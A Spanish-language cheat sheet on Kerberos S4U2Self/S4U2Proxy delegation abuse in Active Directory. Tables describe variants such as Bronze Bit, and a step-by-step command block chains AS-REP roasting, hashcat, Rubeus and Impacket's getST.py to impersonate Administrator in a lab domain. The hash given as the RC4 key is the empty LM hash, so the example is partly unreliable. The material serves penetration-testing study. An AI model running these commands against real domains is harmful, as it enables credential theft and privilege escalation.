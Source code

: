 # 🛑 Ataques de **S4U2Self/S4U2Proxy Abuse en Active Directory**

---

## 📝 ¿Qué es S4U2Self/S4U2Proxy Abuse y por qué es peligroso?

| Concepto      | Descripción                                                                                                       |
|---------------|------------------------------------------------------------------------------------------------------------------|
| **Definición**| Abuso de las extensiones de protocolo Kerberos S4U (Service for User) que permite a servicios obtener tickets en nombre de usuarios sin necesidad de sus credenciales o TGTs, combinando S4U2Self y S4U2Proxy para suplantación completa. |
| **Finalidad** | S4U2Self permite a un servicio obtener un ticket hacia sí mismo en nombre de cualquier usuario, y S4U2Proxy permite usar ese ticket para acceder a otros servicios. Su abuso permite escalada de privilegios masiva y suplantación de identidad sin credenciales del usuario objetivo. |

---

## 🛠️ ¿Cómo funciona y cómo se explota S4U2Self/S4U2Proxy? (TTPs y ejemplos)

| Vector/Nombre              | Descripción breve                                                                                   |
|----------------------------|----------------------------------------------------------------------------------------------------|
| **S4U2Self sin autenticación previa** | Un atacante con control de una cuenta de servicio solicita tickets para cualquier usuario sin necesidad de sus credenciales. |
| **S4U2Proxy para servicios remotos** | Usa tickets obtenidos con S4U2Self para acceder a servicios remotos en la lista de delegación autorizada. |
| **Bronze Bit Attack** | Manipula el flag 'forwardable' en tickets S4U2Self para saltarse restricciones de delegación. |
| **Cross-domain S4U abuse** | Explota S4U entre dominios con trust para escalada de privilegios inter-dominio. |
| **Service Ticket manipulation** | Modifica propiedades de tickets S4U para cambiar servicios objetivo (HTTP→CIFS→LDAP). |
| **Machine Account S4U** | Usa cuentas de máquina comprometidas para realizar S4U hacia servicios de alto privilegio. |
| **gMSA account abuse** | Compromete Group Managed Service Accounts y abusa de sus capacidades S4U. |

---

## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Comprometer cuenta de servicio (ejemplo: AS-REP Roasting + cracking)
GetNPUsers.py soporte.htb/ -usersfile usuarios.txt -format hashcat -outputfile asrep_hashes.txt
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# 2. Verificar capacidades de delegación de la cuenta comprometida
findDelegation.py -target-domain soporte.htb -hashes :aad3b435b51404eeaad3b435b51404ee

# 3. S4U2Self - Obtener ticket para Administrator hacia el servicio comprometido
.\Rubeus.exe s4u /user:srv-sql$ /rc4:aad3b435b51404eeaad3b435b51404ee /impersonateuser:Administrator /self /domain:soporte.htb /dc:dc.soporte.htb

# 4. S4U2Proxy - Usar el ticket S4U2Self para acceder a servicios autorizados
.\Rubeus.exe s4u /user:srv-sql$ /rc4:aad3b435b51404eeaad3b435b51404ee /impersonateuser:Administrator /msdsspn:MSSQLSvc/db.soporte.htb:1433 /domain:soporte.htb /dc:dc.soporte.htb /ptt

# 5. Alternativamente, usando getST.py para el flujo completo
getST.py -spn MSSQLSvc/db.soporte.htb:1433 -impersonate Administrator soporte.htb/srv-sql$ -hashes :aad3b435b51404eeaad3b435b51404ee

# 6. Bronze Bit Attack - Modificar forwardable flag si es necesario
.\Rubeus.exe s4u /user:srv-sql$ /rc4:aad3b435b51404eeaad3b435b51404ee /impersonateuser:Administrator /self /bronzebit /domain:soporte.htb

```